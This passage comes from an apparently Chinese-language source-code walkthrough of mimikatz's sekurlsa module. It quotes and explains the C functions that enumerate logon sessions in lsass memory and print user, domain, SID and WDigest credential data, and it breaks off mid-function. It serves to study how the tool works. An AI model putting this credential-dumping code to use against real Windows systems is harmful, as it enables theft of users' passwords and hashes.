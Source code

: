Print Basic User Information
----------------------------

跟进 `kuhl_m_sekurlsa_enum_callback_logondata()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
BOOL CALLBACK kuhl_m_sekurlsa_enum_callback_logondata(IN PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA pData, IN OPTIONAL LPVOID pOptionalData)
{
    PKUHL_M_SEKURLSA_GET_LOGON_DATA_CALLBACK_DATA pLsassData = (PKUHL_M_SEKURLSA_GET_LOGON_DATA_CALLBACK_DATA) pOptionalData;
    ULONG i;
    //PDWORD sub = NULL;
    if((pData->LogonType != Network))
    {
        kuhl_m_sekurlsa_printinfos_logonData(pData);
        // 遍历 pLsassData 中的所有 lsass 包，这里只有一个 kuhl_m_sekurlsa_msv_package
        for(i = 0; i < pLsassData->nbPackages; i++)
        {
            if(pLsassData->lsassPackages[i]->Module.isPresent && lsassPackages[i]->isValid)
            {
                kprintf(L"\t%s :\t", pLsassData->lsassPackages[i]->Name);
                // CredsForLUIDFunc 为 kuhl_m_sekurlsa_enum_logon_callback_msv
                pLsassData->lsassPackages[i]->CredsForLUIDFunc(pData);
                kprintf(L"\n");
            }
        }
    }
    return TRUE;
}
```

在该函数中，先判断登录类型是否是 Network，如果不是，则对传入的用户登录信息 `pData` 调用 `kuhl_m_sekurlsa_printinfos_logonData()` 函数，打印用户的会话、用户名、域名、登录到的服务器、登陆时间以及 SID 登信息。

然后，继续对 `pData` 调用 lsass 包中的 `CredsForLUIDFunc` 指向的函数，在这里是 `kuhl_m_sekurlsa_enum_logon_callback_wdigest()` 函数。

Print Credentials Information
-----------------------------

跟进 `kuhl_m_sekurlsa_enum_logon_callback_wdigest()` 函数：

- sekurlsa\\packages\\kuhl\_m\_sekurlsa\_wdigest.c

```c++
PKIWI_WDIGEST_LIST_ENTRY l_LogSessList = NULL;
LONG offsetWDigestPrimary = 0;

// ...

void CALLBACK kuhl_m_sekurlsa_enum_logon_callback_wdigest(IN PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA pData)
{
    KULL_M_MEMORY_ADDRESS aLocalMemory = {NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE}, aLsassMemory = {NULL, pData->cLsass->hLsassMem};
    SIZE_T taille;
    BOOL wasNotInit = !kuhl_m_sekurlsa_wdigest_package.Module.isInit;

    if(kuhl_m_sekurlsa_wdigest_package.Module.isInit || kuhl_m_sekurlsa_utils_search_generic(pData->cLsass, &kuhl_m_sekurlsa_wdigest_package.Module, WDigestReferences, ARRAYSIZE(WDigestReferences), (PVOID *) &l_LogSessList, NULL, NULL, &offsetWDigestPrimary))
    {
        #if defined(_M_ARM64)
        if(wasNotInit)
```
